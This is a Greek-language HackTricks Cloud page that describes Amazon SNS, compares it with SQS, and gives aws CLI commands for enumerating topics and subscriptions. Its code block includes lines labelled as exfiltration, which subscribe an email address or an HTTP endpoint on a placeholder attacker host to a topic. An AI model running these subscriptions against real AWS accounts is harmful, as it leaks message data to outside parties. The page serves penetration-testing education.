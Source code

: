 # AWS - SNS Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## SNS

Η Υπηρεσία Απλών Ειδοποιήσεων της Amazon (Amazon SNS) περιγράφεται ως μια **πλήρως διαχειριζόμενη υπηρεσία μηνυμάτων**. Υποστηρίζει και τους δύο τύπους επικοινωνίας **εφαρμογής προς εφαρμογή** (A2A) και **εφαρμογής προς άτομο** (A2P).

Τα κύρια χαρακτηριστικά για την επικοινωνία A2A περιλαμβάνουν **μηχανισμούς δημοσίευσης/εγγραφής (pub/sub)**. Αυτοί οι μηχανισμοί εισάγουν **θέματα**, κρίσιμα για την ενεργοποίηση υψηλής απόδοσης, **βασισμένης σε push, επικοινωνίας πολλών προς πολλούς**. Αυτό το χαρακτηριστικό είναι ιδιαίτερα ευνοϊκό σε σενάρια που περιλαμβάνουν κατανεμημένα συστήματα, μικροϋπηρεσίες και αρχιτεκτονικές χωρίς διακομιστές που βασίζονται σε γεγονότα. Εκμεταλλευόμενοι αυτά τα θέματα, τα συστήματα εκδότη μπορούν να διανέμουν αποτελεσματικά μηνύματα σε ένα **ευρύ φάσμα συστημάτων συνδρομητών**, διευκολύνοντας ένα μοτίβο επικοινωνίας fanout.

### **Διαφορά με το SQS**

**SQS** είναι μια **υπηρεσία βασισμένη σε ουρές** που επιτρέπει την επικοινωνία σημείου προς σημείο, διασφαλίζοντας ότι τα μηνύματα επεξεργάζονται από έναν **μοναδικό καταναλωτή**. Προσφέρει **τουλάχιστον μία παράδοση**, υποστηρίζει κανονικές και FIFO ουρές, και επιτρέπει τη διατήρηση μηνυμάτων για επαναλήψεις και καθυστερημένη επεξεργασία.\
Από την άλλη πλευρά, το **SNS** είναι μια **υπηρεσία βασισμένη σε δημοσίευση/εγγραφή**, επιτρέποντας **μία προς πολλούς** επικοινωνία μέσω της μετάδοσης μηνυμάτων σε **πολλούς συνδρομητές** ταυτόχρονα. Υποστηρίζει **διάφορες διευθύνσεις συνδρομής όπως email, SMS, λειτουργίες Lambda και HTTP/HTTPS**, και παρέχει μηχανισμούς φιλτραρίσματος για στοχευμένη παράδοση μηνυμάτων.\
Ενώ και οι δύο υπηρεσίες επιτρέπουν την αποσύνδεση μεταξύ των στοιχείων σε κατανεμημένα συστήματα, το SQS εστιάζει στην επικοινωνία μέσω ουρών, ενώ το SNS τονίζει τα μοτίβα επικοινωνίας που βασίζονται σε γεγονότα και fan-out.

### **Αριθμητική**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Σημειώστε ότι αν το **θέμα είναι τύπου FIFO**, μόνο οι συνδρομητές που χρησιμοποιούν το πρωτόκολλο **SQS** μπορούν να χρησιμοποιηθούν (HTTP ή HTTPS δεν μπορούν να χρησιμοποιηθούν).

Επίσης, ακόμη και αν το `--topic-arn` περιέχει την περιοχή, βεβαιωθείτε ότι έχετε καθορίσει τη σωστή περιοχή στο **`--region`** ή θα λάβετε ένα σφάλμα που δείχνει ότι δεν έχετε πρόσβαση, αλλά το πρόβλημα είναι η περιοχή.
{% endhint %}

#### Μη Αυθεντική Πρόσβαση

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Κλιμάκωση Δικαιωμάτων

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Μετά την Εκμετάλλευση

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Επιμονή

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## Αναφορές

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
